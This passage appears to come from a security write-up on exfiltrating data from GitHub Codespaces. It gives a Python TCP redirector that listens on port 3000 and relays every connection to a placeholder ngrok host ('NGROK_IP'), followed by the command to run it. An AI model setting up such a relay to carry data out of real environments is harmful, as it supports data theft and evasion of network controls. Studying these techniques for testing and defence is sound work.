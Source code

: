     # Configuration
    LISTEN_HOST = '0.0.0.0'
    LISTEN_PORT = 3000
    FORWARD_HOST = 'NGROK_IP'  # Change this to the target IP
    FORWARD_PORT = NGROK_PORT # Change this to the target port

    def forward(source, destination):
        try:
            while True:
                data = source.recv(4096)
                if not data:
                    break
                destination.sendall(data)
        except Exception as e:
            print(f"[!] Error during forwarding: {e}")
        finally:
            source.close()
            destination.close()

    def handle_client(client_socket):
        try:
            remote_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            remote_socket.connect((FORWARD_HOST, FORWARD_PORT))
            print(f"[+] Connection established: {client_socket.getpeername()} -> {FORWARD_HOST}:{FORWARD_PORT}")

            threading.Thread(target=forward, args=(client_socket, remote_socket)).start()
            threading.Thread(target=forward, args=(remote_socket, client_socket)).start()
        except Exception as e:
            print(f"[!] Failed to connect to remote host: {e}")
            client_socket.close()

    def start_server():
        server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server.bind((LISTEN_HOST, LISTEN_PORT))
        server.listen(5)
        print(f"[+] Listening on {LISTEN_HOST}:{LISTEN_PORT}")

        while True:
            client_socket, addr = server.accept()
            print(f"[+] Incoming connection from {addr}")
            threading.Thread(target=handle_client, args=(client_socket,)).start()

    if __name__ == "__main__":
        start_server()

    ```

    Run the redirector

    ```
    $ python3 redirector.py
    ```
    ![](../images/exfil-codespaces/exfil2.png)
